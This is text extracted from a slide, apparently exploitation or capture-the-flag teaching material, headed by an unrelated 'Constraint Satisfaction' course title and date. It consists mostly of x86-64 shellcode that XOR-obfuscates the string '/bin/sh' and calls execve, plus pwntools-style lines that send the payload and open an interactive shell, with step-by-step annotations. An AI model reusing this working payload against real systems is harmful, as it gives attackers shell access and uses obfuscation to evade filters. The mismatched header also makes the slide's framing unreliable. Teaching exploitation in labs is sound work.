

4 Feb 2004
CS 3243 - Constraint Satisfaction
# ASM ShellCode
shellcode = '''
mov rax, 0x2020202020202020
push rax

mov rax, 0x2020202020202020 ^ 0x68732f6e69622f

xor [rsp], rax

mov rdi, rsp

push 0x0
pop rsi
push 0x0
pop rdx

push 0x3a
pop rax
add al, 0x1
syscall
'''
push key to stack
encrpted /bin/sh
decrpt /bin/sh by XOR key and encrpted string
1st argument to sys call points to decrpted /bin/sh

2nd argument to sys call is NULL

3rd argument to sys call is NULL
sc = asm(shellcode)

sh.sendline(sc)
sh.interactive()

rax to 03b, which sets execve() call
8